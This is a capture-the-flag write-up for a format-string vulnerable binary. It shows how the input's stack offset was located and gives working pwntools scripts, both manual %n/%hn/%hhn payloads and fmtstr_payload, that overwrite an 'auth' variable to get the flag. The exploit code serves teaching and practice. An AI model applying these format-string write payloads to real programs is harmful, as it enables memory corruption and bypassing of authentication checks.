

This is simple format string vulnerable binary where we have to overwrite data to pass check and get flag.



our input is fed into printf, which is vulnerable to format string attacks and next "auth" variable (which is 0x0) is checked if it equals to 0x13371337. We have to exploit it.
### Manually
First we have to understand what is the index of our input. There are different ways like:

```
phrase?  
AAAAAAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p  
AAAAAAAA.0x7ffd652298a0.0x24.0x7f7051ca401a.(nil).(nil).0x4141414141414141.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025  
  
denied
```

```
phrase?  
AAAAAAAA.%1$p       
AAAAAAAA.0x7ffc0de1a690  
  
denied

phrase?  
AAAAAAAA.%2$p  
AAAAAAAA.0xe  
  
denied

phrase?  
AAAAAAAA.%3$p  
AAAAAAAA.0x7fa1beea401a  
  
denied

phrase?  
AAAAAAAA.%4$p  
AAAAAAAA.(nil)  
  
denied

phrase?  
AAAAAAAA.%5$p  
AAAAAAAA.(nil)  
  
denied

phrase?  
AAAAAAAA.%6$p  
AAAAAAAA.0x4141414141414141  
  
denied
```

and we can find out our index is 6.
Now we need to know the address of data we will overwrite, and it is 0x40404c as seen in screenshot.

We can use "%\[i\]%n" (hhn - 1 bytes, hn - 2 bytes, n - 4 bytes, lln - 8 bytes) to write bytes.

I have wrote 3 different manual payloads using hhn, hn, lln (each seperately):
```python
from pwn import *

context.binary = ELF("./format-string-auth")
"""
I wrote same exploit in different outputs just for practice, all of them work

1.
payload = b"%322376503c%9$naaaaaaa" + p64(0x40404c) # or write context.binary.sym.auth

2.
payload = b"%4919c%8$hn%9$hn" + p64(0x40404c) + p64(0x40404e)

3.
payload = b"%19c%11$hhn%12$hhn%36c%13$hhn%14$hhnaaaa" + p64(0x40404d) + p64(0x40404f) + p64(0x40404c) + p64(0x40404e)
"""

p = process("./format-string-auth")

p.sendafter("phrase?\n", payload)

print(p.recvall().strip().decode(errors = "ignore"))

```

to explain simply, %\[x\]c writes **x** times * space and %\[i\]%n writes length of currently written input's length to address at i-th index. To simply explain first payload, we write 0x13371337 spaces and write it's length (0x13371337) to address at 9th index. To explain third one, we first write 0x13 spaces write at 2 addresses and then write 0x24 more spaces which equals to 0x37 in total and write it into 2 addresses.

Other than manual exploit we can actually use powerful functions of pwntools:

```python
from pwn import *

context.log_level = "info"

context.binary = ELF("./format-string-auth")

def exec_fmt(payload):
    p = process("./format-string-auth")
    p.sendline(payload)
    print(payload)
    return p.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

p = process("./format-string-auth")

payload = fmtstr_payload(offset, {context.binary.sym.auth: 0x13371337})
print(payload)

p.sendafter(b"phrase?\n", payload)

print(p.recvall().strip().decode(errors = "ignore"))

```

I set context.log_level to "info" so while execution it is more understandable on what happens and I also output exact payloads pwntools send. You can check out https://docs.pwntools.com/en/dev/fmtstr.html to understand it better.
But we can simply explain it as, first FmtStr sends payloads to find out which index the input starts from. Then using this information it can set up payload you give.